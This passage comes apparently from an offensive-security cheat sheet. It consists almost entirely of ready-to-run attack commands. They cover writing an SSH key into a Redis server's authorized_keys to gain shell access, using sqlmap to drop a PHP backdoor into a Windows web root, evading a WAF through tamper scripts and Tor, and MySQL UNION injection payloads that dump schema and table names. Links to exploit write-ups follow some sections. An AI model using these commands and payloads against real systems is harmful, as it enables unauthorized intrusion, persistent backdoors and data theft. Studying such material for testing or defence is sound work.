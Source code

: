 ```
root@kali:$ ssh-keygen -t ecdsa -s 521 -f key
root@kali:$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
root@kali:$ redis-cli -h 127.0.0.1 flushall
root@kali:$ cat foo.txt | redis-cli -h 127.0.0.1 -x set pwn
root@kali:$ redis-cli -h 127.0.0.1 config set dbfilename authorized_keys
root@kali:$ redis-cli -h 127.0.0.1 config set dir /var/lib/redis/.ssh
root@kali:$ redis-cli -h 127.0.0.1 save
```

* [packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
* [2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)




## SQLi



### sqlmap

* [Usage · sqlmapproject/sqlmap Wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#sql-injection-using-sqlmap)

Write file:

```
$ sqlmap -r request.req --batch --file-write=./backdoor.php --file-dest=C:/Inetpub/wwwroot/backdoor.php
```

Test WAF:

```
$ sqlmap.py -u 'https://127.0.0.1' --data='{"param":"*"}' -p 'param' -v3 --identify-waf --tamper='between,randomcase,space2comment' --random-agent --tor --check-tor --thread=1 --batch
```

* [www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/](https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/)



### DIOS

MySQL:

```
id=1' UNION SELECT 1,(SELECT (@a) FROM (SELECT (@a:=0x00),(SELECT (@a) FROM (information_schema.columns) WHERE (@a) IN (@a:=concat(@a,'<font color=red>',table_schema,'</font>',' ::: ','<font color=green>',table_name,'</font>','<br>'))))a);-- -

SELECT (@a) FROM (
	SELECT(@a:=0x00), (
		SELECT (@a) FROM (information_schema.schemata)
		WHERE (@a) IN (@a:=concat(@a,schema_name,'\n'))
	)
) foo
```
